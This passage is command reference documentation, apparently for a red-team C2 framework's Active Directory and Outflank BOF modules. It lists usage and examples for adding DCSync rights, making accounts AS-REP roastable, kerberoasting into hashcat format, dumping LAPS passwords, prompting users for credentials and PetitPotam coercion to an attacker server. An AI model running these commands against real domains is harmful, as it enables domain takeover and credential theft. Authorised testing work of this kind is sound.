  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-dcsync
Add a DCSync ACE to an object's DACL.

```
Usage  : add-dcsync <target> <trustee> [--type <ace_type>] [--flags <flags>] [--guid <guid>] [--inherit-guid <inherit_guid>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-dcsync DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type: allow (default), deny.
  --flags flags             STRING     ACE inheritance flags (e.g., CI,OI).
  --guid guid               STRING     Object type GUID.
  --inherit-guid inherit_guid STRING   Inherited object type GUID.
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-asreproastable
Make a user AS-REP roastable (set DONT_REQ_PREAUTH).

```
Usage  : add-asreproastable <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-asreproastable julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target user name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-unconstrained
Enable unconstrained delegation on an object.

```
Usage  : add-unconstrained <target> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-unconstrained machine01$ --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### add-constrained
Set/replace delegation SPNs (constrained delegation).

```
Usage  : add-constrained <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: add-constrained machine01$ RestrictedKrbHost/machine01.conquest.local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     Delegation SPN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-password
Set/reset a user's password.

```
Usage  : set-password <target> <password> [--old <old_password>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-password julius 'N3wP@ssw0rd!' --old 'OldP@ss' --dc dc01.conquest.local

Required arguments:
  target                    STRING     User name or DN.
  password                  STRING     New password.

Optional arguments:
  --old old_password        STRING     Old password (for self-service change, omit for admin reset).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-spn
Set/replace all SPNs on an object.

```
Usage  : set-spn <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-spn machine01$ HOST/machine01.conquest.local --dc dc01.conquest.local --ldaps

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     SPN to set (replaces all existing).

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-delegation
Set/replace delegation SPNs.

```
Usage  : set-delegation <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-delegation appsvc RestrictedKrbHost/appsvc.conquest.local --dc dc01.conquest.local --ldaps

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     Delegation SPN (replaces all existing).

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-attribute
Set/replace an attribute value.

```
Usage  : set-attribute <target> <attribute> <value> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-attribute julius description 'New description' --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  attribute                 STRING     Attribute name.
  value                     STRING     Value to set.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-uac
Set UAC flags (replaces all).

```
Usage  : set-uac <target> <flags> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-uac julius DONT_EXPIRE_PASSWD --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  flags                     STRING     Comma-separated UAC flags (replaces all).

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### set-owner
Set the owner of an object (requires WriteOwner).

```
Usage  : set-owner <target> <owner> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: set-owner CN=resource,DC=conquest,DC=local CN=julius,DC=conquest,DC=local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  owner                     STRING     New owner name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### move-object
Move an object to a different OU.

```
Usage  : move-object <object> <destination> [--name <name>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: move-object julius "OU=Managers,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  object                    STRING     Object name or DN to move.
  destination               STRING     Destination OU DN.

Optional arguments:
  --name name               STRING     New name for the object.
  --ou path                 STRING     OU path to search for object.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-groupmember
Remove a member from a group.

```
Usage  : remove-groupmember <group> <member> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-groupmember Stark julius --dc dc01.conquest.local

Required arguments:
  group                     STRING     Group name or DN.
  member                    STRING     Member name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-object
Remove an object from the domain.

```
Usage  : remove-object <object> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-object julius --ou "OU=Users,DC=conquest,DC=local" --dc dc01.conquest.local

Required arguments:
  object                    STRING     Object name or DN.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-spn
Remove an SPN from an object.

```
Usage  : remove-spn <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-spn machine01$ HOST/machine01.conquest.local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     SPN to remove.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-delegation
Remove a delegation SPN.

```
Usage  : remove-delegation <target> <spn> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-delegation machine01$ RestrictedKrbHost/machine01.conquest.local --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  spn                       STRING     Delegation SPN to remove.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-attribute
Remove an attribute or attribute value.

```
Usage  : remove-attribute <target> <attribute> [--value <value>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-attribute julius description --value 'Old description' --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  attribute                 STRING     Attribute name.

Optional arguments:
  --value value             STRING     Specific value to remove (removes entire attribute if not specified).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-uac
Remove UAC flags from an object.

```
Usage  : remove-uac <target> <flags> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-uac julius DONT_EXPIRE_PASSWD --dc dc01.conquest.local

Required arguments:
  target                    STRING     Object name or DN.
  flags                     STRING     Comma-separated UAC flags to remove.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-ace
Remove an ACE from an object's DACL.

```
Usage  : remove-ace <target> [--trustee <trustee>] [--rights <rights>] [--type <ace_type>] [--index <ace_index>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-ace CN=SomeObject,DC=conquest,DC=local --trustee julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.

Optional arguments:
  --trustee trustee         STRING     Trustee name or DN to match.
  --rights rights           STRING     Access rights to match (e.g., GenericAll, DCSync).
  --type ace_type           STRING     ACE type to match: allow, deny.
  --index ace_index         INT        ACE index to remove (use get-acl to find index).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-rbcd
Remove an RBCD delegation.

```
Usage  : remove-rbcd <target> <delegate> [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-rbcd targetComputer principalAccount --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  delegate                  STRING     Object to remove from delegation.

Optional arguments:
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-dcsync
Remove a DCSync ACE from an object's DACL.

```
Usage  : remove-dcsync <target> <trustee> [--type <ace_type>] [--index <ace_index>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-dcsync DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type to match: allow, deny.
  --index ace_index         INT        ACE index to remove (use get-acl to find index).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-genericwrite
Remove a GenericWrite ACE from an object's DACL.

```
Usage  : remove-genericwrite <target> <trustee> [--type <ace_type>] [--index <ace_index>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-genericwrite CN=SomeObject,DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type to match: allow, deny.
  --index ace_index         INT        ACE index to remove (use get-acl to find index).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```

### remove-genericall
Remove a GenericAll ACE from an object's DACL.

```
Usage  : remove-genericall <target> <trustee> [--type <ace_type>] [--index <ace_index>] [--ou <path>] [--dc <fqdn>] [--ldaps]
Example: remove-genericall CN=SomeObject,DC=conquest,DC=local julius --dc dc01.conquest.local

Required arguments:
  target                    STRING     Target object name or DN.
  trustee                   STRING     Trustee name or DN.

Optional arguments:
  --type ace_type           STRING     ACE type to match: allow, deny.
  --index ace_index         INT        ACE index to remove (use get-acl to find index).
  --ou path                 STRING     OU path to search.
  --dc fqdn                 STRING     FQDN of the domain controller.
  --ldaps                   BOOL       Use LDAPS (port 636).
```


## Outflank C2 Tool Collection

The Outflank C2 Tool Collection provides additional capabilities implemented as BOF wrappers for [Outflank's C2-Tool-Collection](https://github.com/outflanknl/C2-Tool-Collection). The module contains the following commands:

```
 * get-machineaccountquota  Retrieve MachineAccountQuota in the current domain.
 * add-machineaccount       Add computer account to the Active Directory domain.
 * remove-machineaccount    Delete computer account from the Active Directory domain.
 * askcreds                 Collect credentials via a Windows credential prompt (async).
 * get-kerberoastable       List kerberoasting targets.
 * kerberoast               Kerberoast a specific account.
 * lapsdump                 Dump LAPS passwords.
 * petitpotam               Coerce Windows hosts to authenticate via MS-EFSRPC.
```

### get-machineaccountquota
Retrieve MachineAccountQuota in the current domain.

```
Usage: get-machineaccountquota
Example: get-machineaccountquota
```

### add-machineaccount
Add computer account to the Active Directory domain.

```
Usage  : add-machineaccount <name> <password>
Example: add-machineaccount FAKE01 Password123!

Required arguments:
  name                      STRING     Name of the computer account to add.
  password                  STRING     Password of the new computer account.
```

### remove-machineaccount
Delete computer account from the Active Directory domain.

```
Usage  : remove-machineaccount <name>
Example: remove-machineaccount FAKE01

Required arguments:
  name                      STRING     Name of the computer account to delete.
```

### askcreds
Collect credentials by prompting the user via `CredUIPromptForWindowsCredentialsName`. By default, the command runs asynchronously using the async BOF DLL loader, allowing the agent to continue executing tasks while waiting for the user to enter credentials. The `--sync` flag runs the BOF synchronously instead, which blocks the agent until the credential prompt is closed or dismissed.

```
Usage  : askcreds [prompt] [--sync]
Example: askcreds "Password please :)"

Optional arguments:
  prompt                    STRING     Password prompt (default: "Please provide credentials").
  --sync                    BOOL       Run BOF synchronously (blocks the agent).
```



### get-kerberoastable
List kerberoasting targets in the current domain.

```
Usage  : get-kerberoastable [--no-aes]
Example: get-kerberoastable --no-aes

Optional arguments:
  --no-aes                  BOOL       Exclude AES enabled accounts.
```

### kerberoast
Kerberoast a specific account. The output handler extracts the TGS ticket from the BOF output, decodes the Kerberos AP-REQ structure, and converts it directly into hashcat-crackable format (`$krb5tgs$...`). Both RC4 (`etype 23`) and AES (`etype 17`/`18`) encryption types are supported.

```
Usage  : kerberoast <samaccountname> [--no-aes]
Example: kerberoast svc_cq
Example: kerberoast svc_cq --no-aes

Required arguments:
  samaccountname            STRING     Target account.

Optional arguments:
  --no-aes                  BOOL       Exclude AES enabled accounts.
```

### lapsdump
Dump LAPS passwords for a target computer.

```
Usage  : lapsdump <target>
Example: lapsdump web01

Required arguments:
  target                    STRING     Target computer.
```

### petitpotam
Coerce Windows hosts to authenticate to an attacker-controlled capture server via MS-EFSRPC (PetitPotam).

```
Usage  : petitpotam <attacker> <target>
Example: petitpotam 10.0.0.5 dc01.conquest.local

Required arguments:
  attacker                  STRING     Attacker-controlled capture server IP or hostname.
  target                    STRING     Target server IP or hostname.
```